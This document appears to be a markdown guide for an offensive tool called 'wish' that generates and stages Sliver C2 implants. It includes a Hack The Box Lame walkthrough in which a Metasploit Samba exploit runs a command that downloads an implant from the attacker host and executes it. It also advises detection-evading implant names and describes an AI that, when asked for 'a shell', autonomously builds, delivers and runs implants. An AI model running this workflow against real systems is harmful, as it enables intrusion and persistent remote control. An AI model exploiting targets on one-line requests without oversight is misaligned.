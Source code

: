 # Sliver Implant Deployment Guide

This guide explains how to generate and deploy Sliver implants using wish.

## Overview

wish integrates with the Sliver C2 framework to provide:

1. **Implant Generation**: Generate customizable implant binaries
2. **Staging Server**: HTTP server for implant distribution
3. **Automated Deployment**: Automated implant deployment using RCE vulnerabilities
4. **Session Management**: Manage connected implants

## Prerequisites

- Sliver C2 server is running
- `~/.sliver-client/configs/wish-test.cfg` is configured
- Access to target network

## Implant Generation

### Basic Usage

```bash
/sliver generate --host <callback_host> [options]
```

### Options

- `--host, -h`: Callback host (required)
- `--port, -p`: Callback port (default: 443)
- `--os, -o`: Target OS (linux/windows/darwin)
- `--arch, -a`: Architecture (amd64/x86/arm64)
- `--format, -f`: Output format (exe/shellcode/shared/service)
- `--protocol`: C2 protocol (https/http/tcp/dns)
- `--name, -n`: Implant name (auto-generated if not specified)

### Examples

```bash
# Generate Linux implant
/sliver generate --host 10.10.14.2 --os linux --name LINUX_IMPLANT

# Generate Windows implant (port 8443)
/sliver generate --host 192.168.1.100 --os windows --port 8443 --name WIN_IMPLANT
```

## Staging Server

You can start an HTTP server to distribute generated implants.

### Starting the Server

```bash
/sliver staging start [port]
```

Defaults to port 8080.

### Server Management

```bash
# Show active servers
/sliver staging list

# Stop server
/sliver staging stop <server_id>
```

### Usage Example

```bash
# Start staging server
/sliver staging start 8080

# Example output:
✓ Staging server started
Server ID: a1b2c3d4
URL: http://0.0.0.0:8080
Serving: /home/user/.wish/implants

Available implants:
  • LINUX_IMPLANT: http://localhost:8080/LINUX_IMPLANT
  • WIN_IMPLANT: http://localhost:8080/WIN_IMPLANT.exe
```

## HTB Lame Deployment Example

Complete example of implant deployment to HTB Lame (10.10.10.3):

### 1. Verify Attacker IP

```bash
# Check HTB VPN interface IP
ip addr show tun0
```

### 2. Generate Implant

```bash
/sliver generate --host 10.10.14.2 --os linux --name LAME_EXPLOIT
```

### 3. Start Staging Server

```bash
/sliver staging start 8080
```

### 4. Exploit Vulnerability

Exploit SMB username_map script vulnerability (CVE-2007-2447):

```bash
# Using Metasploit
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set PAYLOAD cmd/unix/generic
set CMD "curl -sSL http://10.10.14.2:8080/LAME_EXPLOIT -o /tmp/svc && chmod +x /tmp/svc && /tmp/svc"
run
```

### 5. Verify Session

```bash
# Check for new session
/sliver implants

# Connect to session
/sliver shell LAME_EXPLOIT
```

## Automated Workflow

Automated deployment using wish's AI capabilities:

```bash
# Instruct the AI
> I need a shell on 10.10.10.3

# wish automatically executes:
# 1. Generate appropriate implant
# 2. Start staging server
# 3. Exploit vulnerability to deploy implant
# 4. Verify session connection
```

## Security Considerations

1. **Communication Encryption**: Use HTTPS protocol in production
2. **Port Selection**: Consider firewall rules
3. **Implant Names**: Use generic names to avoid detection
4. **Cleanup**: Always delete implants and servers after testing

```bash
# Delete implant (managed on Sliver side)
# Stop staging server
/sliver staging stop <server_id>
```

## Troubleshooting

### Implant Generation Error

```
Error: Failed to generate implant
```

Solutions:
- Verify Sliver C2 server is running
- Check configuration file path is correct
- Review `sliver-server` logs

### Staging Server Error

```
Error: Failed to start staging server: Address already in use
```

Solutions:
- Specify different port: `/sliver staging start 8081`
- Check processes using port: `lsof -i :8080`

### No Session Connection

- Check firewall settings
- Verify callback host is correct
- Check implant logs (on target side)

## Best Practices

1. **Environment-specific Settings**: Use different settings for dev/production
2. **Logging**: Log all operations
3. **Regular Cleanup**: Remove unnecessary implants
4. **Access Control**: Set appropriate permissions on Sliver configuration files

## References

- [Sliver Official Documentation](https://github.com/BishopFox/sliver/wiki)
- [wish Sliver Integration Specification](../project/02d-ui-sliver.md)
- [HTB Lame Demo Scenario](../demo/htb-lame-demo-script.md)